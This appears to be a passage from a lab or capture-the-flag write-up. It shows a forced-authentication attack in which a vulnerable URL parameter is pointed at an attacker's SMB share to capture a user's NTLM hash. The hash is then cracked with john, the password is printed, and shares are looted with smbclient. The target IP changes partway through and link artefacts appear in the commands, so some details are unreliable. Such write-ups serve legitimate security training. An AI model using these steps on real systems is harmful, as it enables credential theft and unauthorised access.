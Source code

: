 We were able to get a hit on our `smbserver.py`, but no files were able to load via the web browser. We do however see a user and hash presented to us.

```python
smbserver.py share .
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.93,54738)
[*] User 10.10.14.61\Plagcheck authenticated successfully (basic)
[*] b'Plagcheck'::b'10.10.14.61':4b96ef65d0ee946f6bbfab3591ebbed07333d861ec1e05a3:c762b961fda4f36297fd5dbd35d45e7cb9dd44c9f5306762:
[-] TreeConnectAndX not found share
[*] Closing down connection (10.10.10.93,54738)
[*] Remaining connections []
```

After discovering that a reverse shell or web shell was also not possible, [`Responder.py`](http://responder.py) was used to obtain the NTLMv2 password hash of the Plagcheck user. This was done by using the above `[smbserver.py](http://smbserver.py)` command and navigating to `https://10.10.10.93/index.php?url=smb://10.10.14.61/share/test.txt`.

The hash was then cracked using the below command

```python
john --wordlist=/usr/share/wordlists/rockyou.txt saturn.hash
```

 The cracked password was: `Nat9m7starfox`

We used `smbclient` to enumerate available shares. The **backup** share was of interest

```python
smbclient -L //10.10.10.103 -U plagcheck
Enter WORKGROUP\plagcheck's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

After navigating to the backup share, we retrieved the files found inside

```python
smbclient //10.10.10.103/backup -U plagcheck
Enter WORKGROUP\plagcheck's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul  5 02:26:55 2020
  ..                                  D        0  Sun Jul  5 02:26:55 2020
  jupyter_notebook_config.json.bak      A      107  Sun Jul  5 03:16:00 2020
  pwgen.txt                           A   106800  Fri Jul 10 15:19:16 2020

		10328063 blocks of size 4096. 5413982 blocks available

smb: \> get pwgen.txt
getting file \pwgen.txt of size 106800 as pwgen.txt (43.2 KiloBytes/sec) (average 43.2 KiloBytes/sec)

smb: \> get jupyter_notebook_config.json.bak
```
